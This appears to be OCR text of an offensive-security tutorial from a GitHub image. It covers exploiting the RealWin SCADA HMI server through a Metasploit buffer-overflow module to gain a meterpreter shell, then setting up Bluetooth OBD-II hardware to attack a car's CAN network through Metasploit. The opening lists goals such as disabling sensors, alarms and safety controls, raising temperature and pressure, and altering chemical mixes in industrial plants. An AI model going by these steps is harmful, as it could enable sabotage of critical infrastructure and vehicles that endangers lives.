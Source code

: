 Exploit a buffer overflow in the HMI software. Malicious activities;

1. Disabling sensors and alarms

2. Increasing temprature and pressure

3. Altering the mix and concentration of chemşcals

4. Altering the ladder logic

5. Disabling safety controls

**RealWin Server**

RealWin Server is a product of DATAC RealWin.

HMI software is designed to operate in the Telecom, Electricity, Oil/Gas, Marine, and Water industries.

    msf6 > search realwin
    
    msf6 > use exploit/windows/scada/realwin_scpc_initialize
    
    msf6 > info
    
    msf6 > show options
    
    msf6 > exploit
    
    meterpreter > pwd

**Automobile Hacking with Metasploit**

The dominant protocol in automobiles is CAN and that it is a serial protocol.

**Acquire OBD 2 Connector Hardware**

Let's begin by acquiring a device to connector to the automobile's ODC 2 connector. There are several on the market, but Bluetooth ODB 2 mini interface is cheap. It comes with the ELM327 chipset that effectively communicates to the car's CAN network and connecs to your system with Metasploit by Bluetooth, so you will need to have a computer with built-in bluetooth or purchase a Bluetooth USB adapter.

The CAN protocol is a serial protocol, so we will need to install the ruby gem "serialport" in order to "speak" serial.

    kali > gem install serialport

To connect to the ELM327 device, we need its MAC address. We can use the built-in utiliy hcitool to scan for Bluetooth devices and provide us with the MAC address.

    kali > hcitool scan
    
    kali > rfcomm connect /dev/rfcomm1 "00:19:6D:36:4A:9D"

The next step is to run the ELM327 relay that enables Metasploit to communicate with ELM 327 chipset. You can find it by going /usr/share/metasploit-framework/tools/hardware.

    kali > cd /usr/share/metasploit-framework/tools/hardware
    
    kali > ls -l
    
    kali > ruby elm327_relay.rb -h
